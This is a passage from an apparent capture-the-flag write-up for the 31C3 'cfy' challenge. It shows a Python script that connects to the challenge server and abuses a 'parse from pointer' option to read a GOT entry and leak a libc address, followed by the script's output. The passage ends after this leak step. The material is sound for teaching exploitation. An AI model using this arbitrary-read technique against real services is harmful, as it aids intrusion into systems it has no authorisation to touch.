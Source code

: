 ### Solved by barrebas

Let's have a look at 31C3's `cfy`. We're given the binary and a place to connect to. Upon connecting with `nc`, we see the following:

```bash
bas@tritonal:~/tmp/31c3$ nc 188.40.18.73 3313
What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
```

With option 2, we have an arbitrary read ability, but we have to pass in the pointer in raw hex. This allows us to leak `libc` address from the got:

```python
#!/usr/bin/python

import struct 
import time
import socket
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('188.40.18.73', 3313))


def p(x):
    return struct.pack("L", x)

addr = 0x601020

payload = ""
payload += "2\n"
payload += p(addr)  # printf
payload += "\n"

print s.recv(1000)
s.send(payload)
time.sleep(0.5)
print s.recv(1000)
```

Given us the ouput:

```bash
bas@tritonal:~/tmp/31c3/cfy$ python read.py 
What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit


Please enter your number: dec: 140512731112416
hex: 0x7fcbab6ca3e0

What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
```
